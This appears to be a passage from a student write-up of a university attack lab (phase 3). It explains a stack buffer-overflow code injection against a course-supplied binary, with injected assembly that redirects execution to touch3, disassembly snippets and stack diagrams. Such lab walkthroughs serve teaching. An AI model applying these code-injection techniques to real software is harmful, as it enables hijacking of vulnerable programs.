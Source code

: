 Now that the address pointer s is unpredictable, we can't directly change the value of it. But we can still change the value of `*sval`(%rdi).

**Note**: This time it is a pointer (simply a value in `phase_2`), we must pass an address to it and then store our hex cookie in that address.

we may consider injecting codes like:

```c++
movq    $address, %rdi          // the address of our cookie
pushq   $0x4018fa               // address of touch3
ret                             // return to touch3
```

But what address should we use? If we put it in the buffer, like:

```c
|  return: %rsp  |    // return address of after calling `get_buf`
|     ....       |   
|     cookie     |
|     ....       |   
|     ret        |   
|     pushq      |
|     move       |    // %rsp: 0x5561dc78
```

We may not get the correct answer. See the codes of `hexmatch` and `touch3`:

```c++
000000000040184c <hexmatch>:
  40184c:  41 54                  push   %r12
  40184e:  55                     push   %rbp
  40184f:  53                     push   %rbx
  // ...
00000000004018fa <touch3>:
  4018fa:  53                     push   %rbx
  // ...
```

As we can see here, the `touch3` and `hexmatch` push data into stack and may **cover** the buffer we try to input.

This is because after we call `Gets()` in `getbuf()`, the stack is like this:

```c
|  return: %rsp  |    // return address of after calling `get_buf`
|     ....       |   
|     ....       |
|     ....       |   
|     ret        |   
|     pushq      |
|     move       |    // %rsp: 0x5561dc78
```

But in the end of getbuf, it will add 0x28 to `%rsp` and then `pushq` and make it `0x5561dca8`, the stack is now like this:

```c
|     ....       | // %rsp: 0x5561dca8
|  return: %rsp  |    
|     ....       | // value here may be covered by push!
|     ....       | // value here may be covered by push!
|     ....       | // value here may be covered by push!
|     ret        |   
|     pushq      |
|     move       | // %rsp before: 0x5561dc78
```
